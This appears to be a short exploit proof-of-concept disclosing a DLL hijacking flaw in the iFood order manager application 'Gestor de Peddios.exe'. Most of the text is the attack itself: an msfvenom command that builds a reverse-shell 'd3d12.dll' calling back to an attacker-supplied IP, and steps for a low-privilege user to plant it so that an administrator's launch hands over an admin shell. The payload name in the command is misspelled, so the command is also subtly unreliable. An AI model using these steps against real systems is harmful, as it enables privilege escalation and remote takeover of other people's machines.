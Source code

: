 # ifood Order Manager  'Gestor de Peddios.exe' - DLL hijacking

An attacker places a malicious DLL named "d3d12.dll" in a directory that is searched by the application before the legitimate "d3d12.dll" is found. When the application is launched, it loads the malicious DLL instead of the legitimate one, allowing the attacker to execute arbitrary code in the context of the application.

Vendor Homepage: https://gestordepedidos.ifood.com.br/

Google Drive: https://drive.google.com/file/d/1p5SavlbLAE2o59l8jj4j-FkE_Ne_0Y-P/view?usp=sharing

POC video: https://youtu.be/oMIobV2M0T8


# POC

1. Create malicious dll file on kali linux with msfvenom

       msfvenom -p windows/x64/shell_revese_tcp LHOST=<IP> LPORT=<PORT> -f dll -o d3d12.dll
2.  Transfer created 'd3d12.dll' to the Windows Host from Kali as low level user access
3.  Move the created 'd3d12.dll' file to the 'C:\Gestor de Peddios\d3d12.dll' as low level user access
4.  When Administrator run the application,you will get reverse shell as administrator 


